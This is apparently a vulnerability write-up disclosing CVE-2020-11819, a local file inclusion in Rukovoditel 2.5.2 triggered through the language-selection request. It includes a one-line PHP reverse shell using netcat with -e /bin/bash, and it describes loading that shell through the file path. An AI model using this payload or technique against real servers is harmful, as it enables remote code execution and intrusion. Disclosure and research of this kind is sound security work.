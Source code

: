 ```yaml
---
title: Rukovoditel | RCE | Local File Inclusion | CVE-2020-11819
author: Fatih Çelik
date: 2020-01-14 11:33:00 +0800
categories: [Vulnerability Research]
tags: [vulnerability research]
math: true
mermaid: true
---
```


**Vendor**: [https://sourceforge.net/projects/rukovoditel/](https://sourceforge.net/projects/rukovoditel/)

**Version**: 2.5.2

**Vulnerability**: LFI

**CVE**: CVE-2020-11819

**CVSS 3.x Base Score**: **[9.8 CRITICAL](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?name=CVE-2020-11819&vector=AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H&version=3.1&source=NIST)**

Rukovoditel is a free web-based open-source project management application. A far cry from traditional applications, Rukovoditel gives users a broader and extensive approach to project management. Its customization options allow users to create additional entities, modify and specify the relationship between them, and generate the necessary reports. The platform enables users to craft their own application that is specifically tailored for their activity (CRM, ERP, HRM, WMS, etc.).

I was trying to change language of the application and at the same time looking at the burp. I selected Russian as a language then I realized, russian.php file name is in the body of the request.

![](/photos/rukolfi-1.png)

Here is my theory, application runs russian.php file in the directory and if I put the exact php reverse shell path into the body of the request, I should gain access to the machine. Let's try this theory, I write this one liner php code.

```php
<?php system("nc 127.0.0.1 1234 -e /bin/bash"); ?>
```

Then, I put this code into test.php file in the root directory of the machine. Finally, I give the exact path of the test.php file and boom! test.php file is executed and I gain access.

![](/photos/rukolfi-2.png)

![](/photos/rukolfi-3.png)

I know, this may not be a real attack scenario but I wanted to show attacker can run arbitrary php file on the server and this may be lead to unexpected results.
